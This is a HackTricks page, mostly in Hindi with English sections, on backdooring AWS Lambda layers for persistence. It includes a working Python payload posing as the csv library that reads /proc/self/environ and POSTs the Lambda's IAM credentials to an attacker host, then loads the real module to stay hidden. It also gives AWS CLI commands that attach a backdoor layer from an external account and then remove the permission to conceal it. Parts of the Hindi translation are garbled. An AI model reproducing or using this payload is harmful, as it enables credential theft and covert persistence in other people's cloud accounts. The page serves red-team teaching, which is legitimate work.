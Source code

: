 # AWS - Lambda Layers Persistence

{% hint style="success" %}
AWS हैकिंग सीखें और प्रैक्टिस करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और प्रैक्टिस करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 पर **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}

## Lambda Layers

एक Lambda लेयर एक .zip फ़ाइल आर्काइव है जिसमें **अतिरिक्त कोड** या अन्य सामग्री हो सकती है। एक लेयर में पुस्तकालयें, [कस्टम रनटाइम](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), डेटा, या कॉन्फ़िगरेशन फ़ाइलें हो सकती हैं।

एक **फ़ंक्शन में पांच लेयर्स** शामिल किए जा सकते हैं। जब आप एक लेयर को एक फ़ंक्शन में शामिल करते हैं, तो **सामग्री** को **क्रियान्वयन परिर्देशिका में `/opt`** तक निकाल दिया जाता है।

**डिफ़ॉल्ट** रूप से, आपके द्वारा बनाए गए **लेयर्स** आपके AWS खाते के लिए **निजी** होते हैं। आप एक लेयर को अन्य खातों के साथ **साझा** करने या लेयर को **सार्वजनिक** बनाने का विकल्प चुन सकते हैं। यदि आपके फ़ंक्शन एक ऐसी लेयर का उपभोग करते हैं जिसे किसी अलग खाता ने प्रकाशित किया है, तो आपके फ़ंक्शन लेयर संस्करण का उपयोग कर सकते हैं जब तक उसे हटा नहीं दिया गया है, या जब तक आपकी लेयर तक पहुँचने की अनुमति नहीं वापस ली गई है। हालांकि, आप नए फ़ंक्शन नहीं बना सकते या हटाए गए लेयर संस्करण का उपयोग करके फ़ंक्शन को अपडेट नहीं कर सकते।

कंटेनर छवि के रूप में डिप्लॉय किए गए फ़ंक्शन लेयर का उपयोग नहीं करते। इसके बजाय, जब आप छवि बनाते हैं, तो आप अपने पसंदीदा रनटाइम, पुस्तकालयें, और अन्य आवश्यकताएँ छवि में पैकेज करते हैं।

### Python लोड पथ

Python द्वारा लैम्बडा में उपयोग किया जाने वाला लोड पथ निम्नलिखित है:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
**दूसरे** और तीसरे **स्थानों** की जांच करें जहां **लैम्बडा लेयर** अपनी फ़ाइलें अनज़िप करती हैं: **`/opt/python/lib/python3.9/site-packages`** और **`/opt/python`**

{% hint style="danger" %}
यदि किसी हमलावर ने एक प्रयोग किया लैम्बडा **लेयर** को **बैकडोर** करने का या **एक जोड़ दिया** जो **सामान्य पुस्तकालय लोड होने पर एकाधिक कोड का निष्पादन करेगा**, तो उसे प्रत्येक लैम्बडा आवाहन के साथ दुर्भाग्यपूर्ण कोड निष्पादित करने की क्षमता होगी।
{% endhint %}

इसलिए, आवश्यकताएँ हैं:

* **जांचें पुस्तकालयों** को जो **शिकार को लोड किया गया है**
* एक **प्रॉक्सी पुस्तकालय के साथ लैम्बडा लेयर** बनाएं जो **कस्टम कोड निष्पादित करेगा** और **मूल** पुस्तकालय **लोड करेगा**।

### पूर्व-लोड की गई पुस्तकालयें

{% hint style="warning" %}
इस तकनीक का दुरुपयोग करते समय मुझे एक कठिनाई मिली: कुछ पुस्तकालयें **पहले से ही लोड हो जाती हैं** पाइथन रनटाइम में जब आपका कोड निष्पादित होता है। मैं `os` या `sys` जैसी चीजें ढूंढ रहा था, लेकिन **हालांकि `json` पुस्तकालय भी लोड हो गई थी**।\
इस स्थायित्व तकनीक का दुरुपयोग करने के लिए, कोड को एक नया पुस्तकालय लोड करने की आवश्यकता है जो कोड निष्पादित होने पर लोड नहीं होता है।
{% endhint %}

इस तरह के एक पायथन कोड के साथ, पॉइथन रनटाइम के अंदर पूर्व-लोड की गई पुस्तकालयों की **सूची प्राप्त करना संभव है**:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
और यह है **सूची** (जांचें कि `os` या `json` जैसी लाइब्रेरी पहले से ही उपस्थित हैं)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
और यह है **पुस्तकालयों** की सूची जो **लैम्बडा में डिफ़ॉल्ट रूप से स्थापित हैं**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### लैम्बडा लेयर बैकडोरिंग

इस उदाहरण में यह मान लेते हैं कि लक्षित कोड **`csv`** को आयात कर रहा है। हम **`csv` पुस्तकालय के आयात को बैकडोर करने जा रहे हैं**।

इसके लिए, हमें **csv नामक निर्देशिका बनानी होगी** जिसमें फ़ाइल **`__init__.py`** होगी और इसे एक पथ में बनाया जाएगा जो लैम्बडा द्वारा लोड किया जाता है: **`/opt/python/lib/python3.9/site-packages`**\
फिर, जब लैम्बडा को क्रियान्वित किया जाता है और **csv** को लोड करने का प्रयास किया जाता है, हमारी **`__init__.py` फ़ाइल लोड की जाएगी और क्रियान्वित की जाएगी**।\
इस फ़ाइल में निम्नलिखित होना चाहिए:

* हमारे पेलोड को क्रियान्वित करें
* मूल csv पुस्तकालय को लोड करें

हम दोनों को कर सकते हैं:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Then, create a zip with this code in the path **`python/lib/python3.9/site-packages/__init__.py`** and add it as a lambda layer.

You can find this code in [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

The integrated payload will **send the IAM creds to a server THE FIRST TIME it's invoked or AFTER a reset of the lambda container** (change of code or cold lambda), but **other techniques** such as the following could also be integrated:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### External Layers

Note that it's possible to use **lambda layers from external accounts**. Moreover, a lambda can use a layer from an external account even if it doesn't have permissions.\
Also note that the **max number of layers a lambda can have is 5**.

Therefore, in order to improve the versatility of this technique an attacker could:

* Backdoor an existing layer of the user (nothing is external)
* **Create** a **layer** in **his account**, give the **victim account access** to use the layer, **configure** the **layer** in victims Lambda and **remove the permission**.
* The **Lambda** will still be able to **use the layer** and the **victim won't** have any easy way to **download the layers code** (apart from getting a rev shell inside the lambda)
* The victim **won't see external layers** used with **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
सीखें और प्रैक्टिस करें AWS हैकिंग: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
सीखें और प्रैक्टिस करें GCP हैकिंग: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड ग्रुप**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम ग्रुप**](https://t.me/peass) या **फॉलो** करें हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}
